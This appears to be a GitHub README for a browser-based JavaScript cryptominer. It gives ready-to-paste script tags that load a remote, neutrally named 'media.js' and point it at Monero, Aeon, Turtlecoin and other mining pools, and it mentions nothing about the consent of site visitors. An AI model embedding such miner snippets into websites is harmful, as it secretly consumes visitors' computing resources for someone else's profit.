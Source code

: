 Crypto Webminer | Electroneum | Monero | Bytecoin | IntenseCoin | Dinastycoin | Graft | SuperiorCoin | Turtlecoin | Stellite | IPBC Coin | DERO | Qwertycoin | Aeon | Cryptonight | Cryptonight-Lite | Custom Pool Support - Mining in your Browser

<br>Use Crypto Webminer - JavaScript miner on any Stratum Pool for Cryptonight | Cryptonight-Lite Coins

<br>Host your own assets on your Server from assets branch or use https://thelifeisbinary.netlify.com/media.js

Simple Pool change: ?jason=Your_Favorite_Pool:PortNr

Complete example:
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=0?jason=pool.supportxmr.com:3333"> </script>
<br><br>
Attention: Special Case for some custom variant fork coins: Stellite, Intensecoin and IPBC need ?algo=cn?variant=1
<br><br>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=1?jason=communitypool.stellite.cash:6677"> </script>
<br><br>
Attention: Aeon Cryptonight-lite ?algo=cn-lite?variant=0
<br><br>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn-lite?variant=0?jason=mine.supportaeon.com:3333"> </script>
<br><br>
Attention: Special Case for some custom variant fork coins: Turtlecoin need ?algo=cn-lite?variant=1
<br><br>
<script src="https://thelifeisbinary.netlify.com/media.js?perfekt=wss://?algo=cn?variant=1?jason=Pool.TRTL.CryptoPool.Space:5555"> </script>

<br><br> 
Or use our integration for websites & blogs
http://www.crypto-webminer.com/integrate.html
<br><br> 
Join Discord Chat
https://discord.gg/nnARdpc
  
<br><br> 
We take a 1% developer fee

